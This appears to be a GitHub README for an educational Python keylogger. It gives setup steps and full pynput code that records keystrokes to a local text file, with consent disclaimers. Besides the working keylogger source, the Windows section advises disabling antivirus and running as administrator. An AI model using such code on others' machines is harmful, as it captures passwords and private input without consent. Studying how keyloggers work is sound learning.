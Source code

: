# Keylogger Project

## 📌 Overview
This project is a simple **keylogger** implemented in Python using the `pynput` library. A keylogger is a program that records every key pressed on a keyboard and stores it in a text file. While keyloggers have legitimate uses (e.g., monitoring self-inputs or debugging), they can also be **misused for malicious purposes**, making them potentially dangerous.

---

## ⚠️ Disclaimer
**This script is for educational purposes only.** Unauthorized use of keyloggers to capture keystrokes without consent may violate laws and ethical guidelines.

---

## 🔧 Setup Instructions
### 1️⃣ Install Python
Ensure you have **Python 3.7+** installed. You can check your Python version by running:
```sh
python3 --version
```
If Python is not installed, install it via Homebrew (Mac) or from [Python's official website](https://www.python.org/downloads/).
```sh
brew install python
```

### 2️⃣ Create a Virtual Environment
It is recommended to use a **virtual environment** to keep dependencies isolated.
```sh
python3 -m venv venv
source venv/bin/activate  # For macOS/Linux
```
```sh
venv\Scripts\activate    # For Windows
```

To close the virtual environment.
```sh
deactivate 
```

### 3️⃣ Install Dependencies
```sh
pip install pynput
```

### 4️⃣ Run the Keylogger
Save the following Python code as `keylogger.py`:
```python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", "a") as logkey:
        try:
            char = key.char
            logkey.write(str(char))
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
```
Run the script:
```sh
python keylogger.py
```

---

## 📂 How It Works
- When you **run** this script, it starts listening for keystrokes.
- Every key pressed is **recorded** and stored in `keyfile.txt`.
- The script runs in the background, continuously logging all input.

> **Warning:** This script captures all user input, which can include **passwords and sensitive information**. Always use it responsibly.

---

## 🚨 Security Considerations
### 🔹 MacOS Users
You may need to enable **Input Monitoring** to allow the script to capture keystrokes:
1. Open **System Preferences** → **Privacy & Security**
2. Go to **Input Monitoring** and grant permissions to **Terminal (or Python)**.

### 🔹 Windows Users
Some antivirus software may block or flag this script. To run it:
1. Temporarily **disable** antivirus detection (if necessary).
2. Run the script with administrator privileges (if needed).

---

## ❌ How to Stop the Keylogger
To **terminate** the keylogger, press:
- `CTRL + C` in the terminal (for Windows/macOS/Linux).
- Close the terminal window.

---

## 🔚 Conclusion
This project serves as a simple demonstration of how keyloggers work and why they can be dangerous if misused. Use this knowledge **ethically and legally**, ensuring you have explicit consent when running keyloggers on any system.

**Happy Coding! 🚀**
